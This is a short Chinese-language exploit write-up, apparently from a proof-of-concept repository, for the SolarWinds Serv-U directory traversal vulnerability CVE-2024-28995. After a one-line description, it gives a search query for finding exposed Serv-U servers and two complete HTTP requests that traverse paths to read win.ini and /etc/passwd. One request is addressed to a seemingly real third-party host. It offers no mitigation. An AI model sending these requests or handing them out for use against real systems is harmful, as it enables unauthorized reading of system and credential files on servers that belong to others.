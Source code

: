 # SolarWinds Serv-U 目录遍历漏洞(CVE-2024-28995)

### 1.漏洞描述

Serv-U 的目录遍历漏洞（CVE-2024-28995）是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含 “…/” 的路径段绕过路径验证，访问任意文件。

### 2.搜索语法

```plain
server="Serv-U"
```

### 3.漏洞复现

Windows-poc

```plain
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/d54ff660-fa8c-4d94-b208-0819eb5c156f)


Linux-poc

```plain
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: bbs.calgaryimageanalysis.ca
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/c2aec376-1962-4fdc-b848-881e0f6d2512)

